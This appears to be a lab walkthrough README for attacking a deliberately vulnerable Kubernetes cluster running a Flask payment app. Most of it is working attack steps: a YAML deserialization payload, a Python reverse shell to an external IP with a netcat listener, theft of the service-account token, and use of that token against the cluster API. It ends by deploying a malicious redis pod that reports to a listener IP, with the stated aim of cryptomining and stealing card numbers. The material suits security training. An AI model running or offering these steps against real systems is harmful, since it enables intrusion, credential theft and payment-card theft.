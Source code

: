 ## Attacking a Kubernetes Cluster

### Start the Vulnerable K8s Cluster
1. Run `./setup_insecure_kube.sh` to start the vulnerable K8s Cluster. Wait for the command to be done
2. Run `./setup_flask_stack.sh` to start the flask stack to be run on the cluster. Wait for the command to complete

### Verifying that the K8s stack is running
1. Run `kubectl get pods` should give you something like this:

    ```
        NAME            READY     STATUS    RESTARTS   AGE
        ngflask-redis   3/3       Running   0          1m
    ```

Make sure the `Status` is `Running`

2. Run `kubectl get svc` to check for running services. You should see:

    ```
    NAME                    TYPE        CLUSTER-IP       EXTERNAL-IP   PORT(S)        AGE
    kubernetes              ClusterIP   10.96.0.1        <none>        443/TCP        15m
    ngflask-redis-service   NodePort    10.105.196.230   <none>        80:30070/TCP   1m

    ```

    Your `ngflask-redis-service` Cluster IP and Ports may vary based on your machine

3. Finally run `minikube service ngflask-redis-service --url` to get a full URL of the final service. Open your browser and paste this value.

It will be something like this `http://<IP>:<someport>`

Once you open in your browser, you must see this response: `Please POST JSON requests to this URL`. This means the service running correctly.

### Generating Artifacts
1. In a separate terminal or browser make an HTTP GET request to `http://<IP>:<someport>/generate`
It should come back with this response:
    ```
    {
        "success": "10 transactions generated successfully"
    }
    ```

Now, if you go to the `/status` url, you should see the latest transaction that has been logged by our app.

```
Latest Transaction Status
amount: 482
name: Samuel Chandler
card: ********8854
expiration: 425
Status: Success
```

#### Our objective is to compromise this cluster. Run our cryptominer and steal card numbers 😉

### Exploiting a Deserialization Flaw
* Our Flask app has a `yaml.load()` deserialization flaw. Using this flaw, one can potentially gain access to execute code on the backend-server. We will be using this vulnerability to exploit our app.
* Our app allows us to upload yaml files to capture expense information. We will load a malicious yaml file that should execute code for us.
* Run: `cd payloads`
* Run: (to upload the yaml file and identify the flaw)

```
http --form POST http://<IP>:<PORT>/upload file@test_payment.yml
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Sat, 15 Sep 2018 07:34:52 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```
* Now go to the `/status` url, and you should see this (dump of all the environment variables)

### Reverse TCP Shell on our K8s Cluster
* you should be in the payloads directory. Open `reverse_shell.yml` with `atom reverse_shell.yml`
* change the external IP address to your VM's IP address with ifconfig. Also make sure that port 1337 is available on your VM
    `["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.2.3\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]`
* open a separate terminal and start your netcat listener.
* Now run:

```
http --form POST http://<IP>:<PORT>/upload file@reverse_shell.yml
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Sat, 15 Sep 2018 07:43:59 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

You should have gotten a netcat reverse TCP shell!
```
nc -l 1337
/bin/sh: can't access tty; job control turned off
/app #

```
Now you can interact with your target app and backend K8s cluster

**NOTE: Do NOT use the clear or Commd/Ctrl+C key. you will lose access to the shell**

### Pivoting to K8s cluster
* Navigate to `cd /run/secrets/kubernetes.io/serviceaccount` and run `ls -al`
* open and copy the token with `cat token` and copy to clipboard
* Now run: `export TOKEN=(paste token value here)`
* We are now going to masquerade with the cluster-admin's token.
* Let's start interacting with K8s API

    `curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`
    `curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`

You should see a JSON Dump of all the pods running in the cluster at this time
```
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              {
                "name": "MASTERHOST",
                "value": "10.109.162.114"
              },
              {
                "name": "MASTERPORT",
                "value": "6379"
              },
              {
                "name": "LISTNER_IP",
                "value": "192.168.2.116"
              },
              {
                "name": "LISTNER_PORT",
                "value": "3999"
              }
            ]
        }]
    }
}
EOF
```

`curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XPOST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d@mal-redis.json --insecure`
`curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`
